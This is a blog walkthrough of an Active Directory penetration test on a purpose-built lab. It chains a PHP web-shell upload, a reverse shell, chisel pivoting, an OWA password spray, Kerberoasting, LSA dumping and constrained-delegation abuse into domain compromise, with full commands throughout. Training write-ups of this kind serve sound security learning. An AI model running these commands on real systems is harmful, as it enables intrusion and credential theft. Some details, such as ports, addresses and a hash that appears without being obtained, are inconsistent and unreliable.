

Overview¶
I’ve had several customers come to me before a pentest and say they think they’re in a good shape because their vulnerability scan shows no critical vulnerabilities and that they’re ready for a pentest, which then leads me to getting domain administrator in fifteen minutes by just exploiting misconfigurations in AD. HAUSEC
Active directory penetration testing it is very important in real life and PT job role, most of (at least all) the organizations have domain controller. This blog will demonstrate an attack scenario of advisory compromise the domain controller of a organization from OSINT. My main focus of this scenario is the active directory penetration testing by demonstrating in how an threat actor can pivot inside the organization network and compromise the Domain Controller.
An overview of the stages of exploitation:
- OSINT
- Linux Privilege Escalation
- Pivoting
- Active Directory Enumeration
- Lateral Movement
- Kerberoasting
- Abusing Active Directory ACLs
- Constrained Delegation
Theoretical¶
First of all, active directory is designed by Microsoft and used in most of organizations as the directory service that stores all information of the organization, such as computers, users, domains, printers and etc.
Attack Scenario¶
Entry Point¶
XTech is an electronics-based technology company that which are well known in the country. XTech reached out a penetration testing company to conduct a penetration test for XTech infrastructure. The type of the penetration test was external black-box and the scope was xtech.com with the IP Address 192.168.241.204.
OSINT¶
OSINT stands for Open-Source Intelligence which means the process of gathering public information about the target such as: employees names, company address, employees emails, technologies they are using and etc.
Starting from OSINT, here we will attempt to collect as much information we can about the company passively. We will focus to gather email addresses. Let's browse the company website and try to collect information from it.
By going into the "Who we are" section, we will find three different employees with their social media accounts.

In real world scenario email addresses can be collected from different ways. There are many public OSINT tools that can be utilize to collect not only the email addresses also many other information about the target company. Example of tools that can be used:
- Google Dorks: using google search engine, try to search for any publicly available documents from targets websites. inside those document inspect the meta-data, usually you can find usernames there.
- zoominfo: useful for collecting employees email addresses.
- rocketreach. useful for collecting employees email addresses.
For our scenario, I made the lab basic in order to make easy it to understand. So now we collected three email addresses:
- bob.baker@xtech.local
- lonnie.hill@xtech.local
- john.doe@xtech.local
We will use them later to conduct different attack. Moving forward in inspecting the website, we will notice an upload button that asking to upload PDF document.
Web01¶
Initial Access¶
Let's try to abuse this function by uploading simple PHP file that grant us to execute commands. This can be done using the following one-liner command:
echo '<?php echo system($_GET["cmd"]);?>' > cmd.php

By uploading the PHP file, the website will response with the following:
The PHP file have been uploaded, however, we don't know where it is uploaded. We will need to brute force the directories to find the directory that the file have been uploaded into. We can use here wfuzz to brute force the directory that contains the PHP file cmd.php
wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt --hc 404 http://192.168.241.204/FUZZ/cmd.php
The result of this command will be:
Target: http://192.168.241.204/FUZZ/cmd.php
Total requests: 4614
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000004216: 500 0 L 0 W 0 Ch "uploads"
So we found the directory uploads, now we can browse into that directory but we will use curl instead to make HTTP GET request.
curl 'http://192.168.241.204/uploads/cmd.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
We have now command execution in the server with the user www-data. To obtain reverse shell, we will upload shell.php which can found from the directory /usr/share/laudanum/php/. After upload it, setup netcat listener and browse into the uploaded PHP file.

Now we obtained reverse shell on Web01 host. Before enumerating the machine, first we will upgrade our shell to fully interactive shell using the following commands:
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@web01:/$ export TERM=xterm
www-data@web01:/$ ^Z # <-- CRTL + Z
stty raw -echo; fg # <-- in local machine
www-data@web01:/$
Pivoting to dev01¶
First, let's enumerate the users in this box:
www-data@web01:~/html$ cat /etc/passwd | grep -i "/bin/bash"
root:x:0:0:root:/root:/bin/bash
dev01:x:1001:1001:devloper,devloper,,:/home/dev01:/bin/bash
From the above command output, we identified that there are two users root and dev01. Next, let's enumerate website files.
www-data@web01:~/html$ ls -la
total 104
drwxr-xr-x 8 www-data www-data 4096 Dec 18 09:59 .
drwxr-xr-x 4 dev01 dev01 4096 Dec 17 23:52 ..
drwxr-xr-x 2 www-data www-data 4096 Dec 17 23:52 Admin
-rw-r--r-- 1 www-data www-data 127 Dec 18 09:59 config.php
drwxr-xr-x 2 www-data www-data 4096 Dec 17 23:52 css
drwxr-xr-x 2 www-data www-data 4096 Dec 17 23:52 fonts
drwxr-xr-x 4 www-data www-data 4096 Dec 17 23:52 images
-rw-r--r-- 1 www-data www-data 55106 Dec 18 09:52 index.html
-rw-r--r-- 1 www-data www-data 612 Dec 18 09:04 index.nginx-debian.html
drwxr-xr-x 2 www-data www-data 4096 Dec 17 23:52 js
drwxr-xr-x 2 www-data www-data 4096 Dec 17 23:52 php
-rw-r--r-- 1 www-data www-data 550 Dec 18 09:53 upload.php
drwxr-xr-x 2 www-data www-data 4096 Dec 23 21:15 uploads
config.php looks interesting. By viewing it is content, we will discover user dev01 credentials.
www-data@web01:~/html$ cat config.php
<?php
$config=array(
'DB_HOST'=>'localhost',
'DB_USERNAME'=>'dev01',
'DB_PASSWORD'=>'1337D3v',
'DB_DATABASE'=>'xtechDB'
);
?>
Let's verify the discovered credentials if they are valid. We can do this by switching to the user dev01 using su command.
www-data@web01:~/html$ su dev01
Password:
dev01@web01:/var/www/html$ id
uid=1001(dev01) gid=1001(dev01) groups=1001(dev01)
Privilege Escalation¶
In active directory PT, it is not necessary to gain root privileges in the Linux machines we can utilize that compromised Linux box to pivot into other machines in the same network. For learning purpose, we can try to escalate our privileges into root. First, checking the sudo rights of the current user.
dev01@web01:/var/www/html$ sudo -l
[sudo] password for dev01:
Matching Defaults entries for dev01 on localhost:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User dev01 may run the following commands on localhost:
(ALL : ALL) ALL
From the command output, we can identify that the user can run any commands with root privileges. We can abuse this by simply running the command su to switch to root.
dev01@web01:/var/www/html$ sudo su
root@web01:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
Now we are root. Checking root directory will reveal for us a log file that contain a password.
root@web01:~# ls
auth.log snap
root@web01:~# cat auth.log
Nov 17 15:08:39 localhost sshd[621893]: Access from mail01
Nov 17 15:08:39 localhost sshd[621893]: Enter password:
Nov 17 15:08:39 localhost sshd[621893]: P@ssw0rd!
Nov 17 15:09:12 localhost sshd[621893]: Login successfull
Info
It is hard to find similar scenario in real life, I made it basic in order to focus in Active Directory part and cover all the steps in Pentesting.
Mail01¶
Pivot to Mail01¶
The previously discover log file disclose the host Mail01 in order to find it is IP address simply ping the host.
root@web01:~# ping -c 3 mail01
PING mail01.xtech.local (10.10.10.10) 56(84) bytes of data.
64 bytes from mail01.xtech.local (10.10.10.10): icmp_seq=1 ttl=128 time=0.446 ms
64 bytes from mail01.xtech.local (10.10.10.10): icmp_seq=2 ttl=128 time=0.345 ms
64 bytes from mail01.xtech.local (10.10.10.10): icmp_seq=3 ttl=128 time=0.314 ms
--- mail01.xtech.local ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2023ms
We identified the IP address of Mail01 host which is 10.10.10.10. As we don't have access into the internal network (10.0.0.0) we will use chisel to pivot into the internal network. To utilize chisel we execute the following commands:
-
Download
chiselfrom this repo -
Transfer chisel to the target machine, to do this run:
# In local, machine open Python HTTP server
python3 -m http.server 9002
# In the target machine, download chisel
wget http://ip:9001/chisel
# Also don't forget to make chisel binary executable
chmod +x chisel
- Start
chiselserver in your local machine:
sudo chisel server -p 9003 --reverse
- Run the client from the target machine. Use the flag
R:socksto make use of Socks proxy:
./chisel client ip:9003 R:socks
Password Spray¶
Lets's check if we can access Mail01 host from the web browser. Before we do that, setup socks5 proxy to do this install foxyproxy Firefox plugin. Then, add the following configuration:
Now browse Mail01 website.
It seems host running Outlook Web App (OWA). If we go back to OSINT stage, we discovered three email addresses. Furthermore, we discover a log file in Web01 that containing a conversation of two users one of them shared their password. With this known, we can now attempt to use that password to conduct a password spray against the collected email addresses. Here we will use SprayingToolKit it can be downloaded from the following repository.
Now let's conduct password spray attack, before that we have to configure proxychains.
- Make sure
proxychainsconfiguration file pointed to Socks5 proxy (127.0.0.1:1080). The configuration file should be ending with the following linesocks5 127.0.0.1 1080
tac /etc/proxychains.conf | head -n 1
socks5 127.0.0.1 1080
Now run atomizer with the following flags:
proxychains -q python3 atomizer.py owa 'https://10.10.10.10/autodiscover/autodiscover.xml' 'P@ssw0rd!' emails.txt
We found one valid credentials lonnie.hill with password P@ssw0rd!. Let's use it to login into his mailbox.

Enumerate Lonnie's Mailbox¶
First thing that we will notice an email sent by the user Bob.Baker, this email contain the following:
As seen in above screenshot, we obtained domain user Bob.baker password which is P@ssw0rd@21.
Enumerate the Domain Controller¶
With two valid users on the domain, we can now run BloodHound to get dump of domain controller objects and permissions. I prefer to run BloodHound from Windows host, however, bloodhound can be run from Kali Linux using Python collector but it will not give us all attack paths.
- Windows:
runas /netonly /user:xtech.local\bob.baker cmd
P@ssw0rd@21
.\bloodhound.exe --collectionmethod all
- Linux:
bloodhound-python -c ALL -u bob.baker -p 'P@ssw0rd@21' -d xtech.local -dc 10.10.10.10
After collecting Domain Controller objects run BloodHound. Search for the user Bob.Baker and inspect his attributes.
If we inspected his outbound control rights, we will notice that the user bob.baker have Generic Write privileges on the service account ExchSVC
Pivot to ExchSVC¶
Abusing Generic Write Privileges¶
BloodHound contains handy feature, which is we can see the methodology of abusing every ACL/privileges. We can view this if we hover over the link between object and clicked Help.

- Now how we can abuse Generic Write privileges? simply we can add Service Principle Name (SPN) attribute to the account ExchSVC.
Service Principal Name (SPN)
The SPN is unique identifier for the network Controller service instance, which is used by Kerberos authentication to associate a service instance with a service login account.
Adding SPN attributes can be utilize using krbrelayx's add-spn.py tool. The following commands will be used:
- First add SPN attribute to the service account ExchSVC:
proxychains python3 addspn.py 10.10.10.12 -u xtech.local\\bob.baker -p 'P@ssw0rd@21' -t exchsvc -s cifs/mail01.xtech.local
- Then request SPN account TGT:
proxychains impacket-GetUserSPNs xtech.local/bob.baker:'P@ssw0rd@21' -dc-ip 10.10.10.12 -request
The following TGT will be retrieved:
The retrieved TGT can be crack using hashcat, let's attempt to crack it using fasttrack.txt wordlist
hashcat -a 0 -m 13100 spn.txt /usr/share/wordlists/fasttrack.txt --force
We obtained password for the service account ExchSVC. We discovered also he is a local admin in the host web01
While we are having local admin privileges lets try to dump saved passwords from the LSA memory.
No we have SQLSVC NTLM hash! now we can authenticate into any host using pass the hash technique.
DC01¶
Abuse Constrained Delegation¶
Constrained Delegation
Constrained delegation allows an object (user/machine) to autheneticate as any user to specfic services. Means object with constrained delegation privileges can impersonate any domain user (including Domain Admins) to specific service in the target host.
Going back into BloodHound, if we enumerate SQLSVC account, we will notice that the service account SQLSVC have constrained delegation privileges on the host DC01.
By abusing constrained delegation privileges we can impersonate the Domain Admin to authenticate on the DC01, but first we have to know which service SQLSVC is allowed to delegate. This can be done either from Powerview's Get-NetUser or from BloodHound.
So the account SQLSVC are allowed to delegate to the service WWW/DC01, we will use this service to impersonate the Domain Admin. Impacket contains a great tool called getST that can request a ticket.
proxychains impacket-getST -impersonate administrator -spn WWW/dc01.xtech.local xtech.local/SQLSVC -hashes :5e76ca700abd3597ab702c0b52bacad2 -dc-ip 10.10.10.12
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
Then, we will store the TGT into the variable KRB5CCNAME.
export KRB5CCNAME=administrator.ccache
Finally, let's dump the Domain Admin NTLM hash using Secretdump
proxychains -q impacket-secretsdump -k -no-pass dc01.xtech.local -just-dc-user administrator
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
xtech.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:f7b8c850b103fd71e2d60fbe19d1e373:::
[*] Cleaning up...
The attack works, we have impersonated the Domain Admin and dump it is NTLM hash now we have access into the xtech network.
We can execute commands as Domain Admin.
Or even login via RDP.
Now we compromised the Xtech network domain controller and we full access in the infrastructure.
References¶
- https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces
- https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
- https://book.hacktricks.xyz/windows/active-directory-methodology